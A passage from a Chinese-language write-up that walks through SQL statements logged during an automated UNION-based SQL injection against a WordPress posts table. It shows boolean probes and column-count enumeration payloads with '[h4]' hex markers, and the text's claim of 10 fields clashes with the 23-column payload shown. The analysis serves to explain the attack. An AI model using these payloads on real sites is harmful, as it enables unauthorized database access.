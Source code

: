 ![enter image description here](img/img30_u9_png.jpg)

看起来不算多，因为我没有自动换行，以上是在获取数据库相关信息。

让我来带着大家翻译这些 SQL 都做了些什么：

```
/*检测该 URL 是否存在 SQL 注入*/
SELECT * from wps_posts where ID = 739 and 1=0      
SELECT * from wps_posts where ID = 739 and 1=1      

/*这条 sql 开始查询的字段数，请注意是查询的字段数而不是表的字段数！*/

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d)--

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d),concat(0x5b68345d,1,0x5b2f68345d)--       

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d),concat(0x5b68345d,1,0x5b2f68345d),concat(0x5b68345d,2,0x5b2f68345d)--     
/*........................省去其中的无数次字段长度匹配尝试................................*/

/*匹配出来 SELECT * from wps_posts where ID = 739 一共查询了 10 个字段*/
/*那么他是怎么判断出字段数 10 就是查询的长度的呢？答案很简单提交以下 SQL 占位 10 个页面显示正常而前面提交的都错误所以得到的数量自然就是 10 了。获取请求的 http status 或许应该就行了*/

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d),concat(0x5b68345d,1,0x5b2f68345d),concat(0x5b68345d,2,0x5b2f68345d),concat(0x5b68345d,3,0x5b2f68345d),concat(0x5b68345d,4,0x5b2f68345d),concat(0x5b68345d,5,0x5b2f68345d),concat(0x5b68345d,6,0x5b2f68345d),concat(0x5b68345d,7,0x5b2f68345d),concat(0x5b68345d,8,0x5b2f68345d),concat(0x5b68345d,9,0x5b2f68345d),concat(0x5b68345d,10,0x5b2f68345d),concat(0x5b68345d,11,0x5b2f68345d),concat(0x5b68345d,12,0x5b2f68345d),concat(0x5b68345d,13,0x5b2f68345d),concat(0x5b68345d,14,0x5b2f68345d),concat(0x5b68345d,15,0x5b2f68345d),concat(0x5b68345d,16,0x5b2f68345d),concat(0x5b68345d,17,0x5b2f68345d),concat(0x5b68345d,18,0x5b2f68345d),concat(0x5b68345d,19,0x5b2f68345d),concat(0x5b68345d,20,0x5b2f68345d),concat(0x5b68345d,21,0x5b2f68345d),concat(0x5b68345d,22,0x5b2f68345d)-- 
```

